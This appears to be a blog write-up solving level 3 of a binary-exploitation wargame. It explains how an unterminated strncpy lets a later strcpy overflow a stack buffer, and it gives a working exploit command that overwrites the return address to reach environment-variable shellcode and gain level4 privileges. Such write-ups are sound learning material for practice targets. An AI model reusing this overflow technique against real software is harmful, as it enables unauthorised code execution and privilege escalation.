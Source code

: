 ![Logo](/assets/images/belts-orange.png)

In this post we'll continue with level3 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing with a slightly more interesting vulnerability, an application logic vulnerability, again involving strings operations.
To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level3@hacking.certifiedsecure.com -p 8266
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.



   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally :
```bash
$ checksec.sh --file level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level3
```

NX is disabled and again there is no stack canary. Good news. Let's verify that the stack is executable:

```
$ readelf -lW level3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

In this case we have a logic vulnerability. Notice that now string copying is done in a more secure way, using the [strncpy](http://www.cplusplus.com/reference/cstring/strncpy/) function, which receives as its 3rd parameter a maximum number of character to be copied from source to destination buffer. There is a very important caveat here, however:
> No null-character is implicitly appended at the end of _destination_ if _source_ is longer than _num_. Thus, in this case, destination shall not be considered a null terminated C string (reading it as such would overflow).

```c
#include <string.h>
#include <stdio.h>

void foo(char* a, char* b) {
        char buf1[16];
        char buf2[16];
        char buf3[16];
        int i;

        for (i=0; i<16;i++) {
                buf2[i] = "A";
        }

        if (strlen(a) <= sizeof(buf3)) {
[1]             strncpy(buf3, a, sizeof(buf3));


[2]             if (strlen(b) <= strlen(buf3)) {
[3]                     strcpy(buf1, b);
                }
        }
}

int main(int argc, char** argv) {
        if (argc != 3) {
                printf("Usage: %s <a> <b>\n", argv[0]);

                return -1;
        }

        foo(argv[1], argv[2]);
        return 0;
}
```


* So the call to **strncpy(buf3, a, sizeof(buf3)) [1]** will **not** add a null terminator to **buf3** if parameter **a** (first user input!) is exactly 16 characters.
* Following this, the call to **strlen(buf3) [2]** will go over the bounds of the string **buf3** (no null terminator for **buf3**) and will return a larger value than expected. 
* This will lead to the execution of the **strcpy(buf1, b) [3]** call, which will overflow **buf1** with **b** (second user input), thus giving us the posibility to control again the return address from function **foo**.


## 2 - Exploit

For all the steps describe before to work, the layot of the stack of function **foo** is very important. Let's check that in IDA. After a bit of renaming, the variables on the stack look like this: 

![Logo](/assets/images/bm3-1.png)

Steps:
* We need a payload of 16 characters in **a**.
* We need to put 32 bytes in **buf1** from **b** in order to overwrite the return address. 
* We'll use the same trick with the shellcode placed in an environment variable, and overwrite EIP with the address of the variable.

```bash
$ ./level3 $(python -c 'print "B"*16') $(python -c 'print "C"*32 + "\xd3\xd8\xff\xff"')
$ id
uid=1004(level3) gid=1004(level3) euid=1005(level4) groups=1005(level4),1004(level3)
```

## 3 - Profit

```
$ /home/level4/victory
   ___  _                      __  ___         __
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____    
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                                          
Subject: Victory!                         

Congrats, you have solved level3. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level3 @ binary mastery ensign)
   * the exploit 
   
You can now start with level4. If you want, you can log in
as level4 with password  [REDACTED] 
```

In the next level we'll exploit more buffer overflows, but this time over the network.
